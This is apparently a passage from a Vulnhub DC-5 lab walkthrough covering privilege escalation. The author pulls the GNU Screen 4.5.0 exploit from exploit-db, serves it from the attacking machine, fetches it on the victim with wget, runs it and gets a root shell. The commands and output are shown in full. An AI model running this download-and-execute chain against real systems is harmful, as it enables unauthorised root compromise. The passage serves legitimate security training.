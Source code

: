 It looks like there is a known privilege escalation vulnerability available.
Now copy the exploit to our working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-5]
└─$ searchsploit -m 41154    
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
    Codes: N/A
 Verified: True
File Type: Bourne-Again shell script, ASCII text executable
Copied to: /home/emvee/Documents/Vulnhub/DC-5/41154.sh
```
And then host the exploit on our local python webserver.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-5]
└─$ sudo python3 -m http.server 80
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Change the working directory to `/tmp` on the victim and download the exploit.

```bash
www-data@dc-5:/tmp$ wget http://10.0.2.15/41154.sh
wget http://10.0.2.15/41154.sh
converted 'http://10.0.2.15/41154.sh' (ANSI_X3.4-1968) -> 'http://10.0.2.15/41154.sh' (UTF-8)
--2023-03-28 02:30:13--  http://10.0.2.15/41154.sh
Connecting to 10.0.2.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1149 (1.1K) [text/x-sh]
Saving to: '41154.sh'

41154.sh                                          100%[===============================================================================================================>]   1.12K  --.-KB/s   in 0s     

2023-03-28 02:30:13 (332 MB/s) - '41154.sh' saved [1149/1149]

www-data@dc-5:/tmp$ chmod +x 41154.sh
chmod +x 41154.sh

```

## Privilege escalation
Now run the exploit.
```bash
www-data@dc-5:/tmp$ ./41154.sh
./41154.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# 
```
It looks like it worked, let's check this with the command `whoami;id;hostname`.
```bash
# whoami;id;hostname
whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root),33(www-data)
dc-5
```